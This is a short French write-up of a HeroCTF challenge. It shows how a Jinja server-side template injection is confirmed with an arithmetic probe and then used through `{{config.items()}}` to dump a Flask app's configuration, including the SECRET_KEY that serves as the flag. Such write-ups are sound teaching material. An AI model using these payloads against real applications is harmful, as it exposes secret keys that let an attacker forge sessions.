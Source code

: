 Ce challenge se base sur l'exploitation de Jinja, un moteur de template pour python.

On peut tester la vulnérabilité en essayant de rentrer `{{3*'3'}}{{3*3}}` dans le champs. Si le résultat retourné est `3339`, alors Jinja est ici sujet aux injections.

C'est le cas ici ! On essaye donc `{{config.items()}}` et on obtient le résultat suivant :

```php
Hello dict_items([(&#39;ENV&#39;, &#39;production&#39;), (&#39;DEBUG&#39;, False), (&#39;TESTING&#39;, False), (&#39;PROPAGATE_EXCEPTIONS&#39;, None), (&#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;, None), (&#39;SECRET_KEY&#39;, &#39;j1nj4_1nj3c710n_700_345y_4_m3_10114320&#39;), (&#39;PERMANENT_SESSION_LIFETIME&#39;, datetime.timedelta(days=31)), (&#39;USE_X_SENDFILE&#39;, False), (&#39;SERVER_NAME&#39;, None), (&#39;APPLICATION_ROOT&#39;, &#39;/&#39;), (&#39;SESSION_COOKIE_NAME&#39;, &#39;session&#39;), (&#39;SESSION_COOKIE_DOMAIN&#39;, False), (&#39;SESSION_COOKIE_PATH&#39;, None), (&#39;SESSION_COOKIE_HTTPONLY&#39;, True), (&#39;SESSION_COOKIE_SECURE&#39;, False), (&#39;SESSION_COOKIE_SAMESITE&#39;, None), (&#39;SESSION_REFRESH_EACH_REQUEST&#39;, True), (&#39;MAX_CONTENT_LENGTH&#39;, None), (&#39;SEND_FILE_MAX_AGE_DEFAULT&#39;, datetime.timedelta(seconds=43200)), (&#39;TRAP_BAD_REQUEST_ERRORS&#39;, None), (&#39;TRAP_HTTP_EXCEPTIONS&#39;, False), (&#39;EXPLAIN_TEMPLATE_LOADING&#39;, False), (&#39;PREFERRED_URL_SCHEME&#39;, &#39;http&#39;), (&#39;JSON_AS_ASCII&#39;, True), (&#39;JSON_SORT_KEYS&#39;, True), (&#39;JSONIFY_PRETTYPRINT_REGULAR&#39;, False), (&#39;JSONIFY_MIMETYPE&#39;, &#39;application/json&#39;), (&#39;TEMPLATES_AUTO_RELOAD&#39;, None), (&#39;MAX_COOKIE_SIZE&#39;, 4093)])
```
La partie qui nous intéresse pour ce challenge est celle-ci :
```
(&#39;SECRET_KEY&#39;, &#39;j1nj4_1nj3c710n_700_345y_4_m3_10114320&#39;)
```
HeroCTF{j1nj4_1nj3c710n_700_345y_4_m3_10114320}
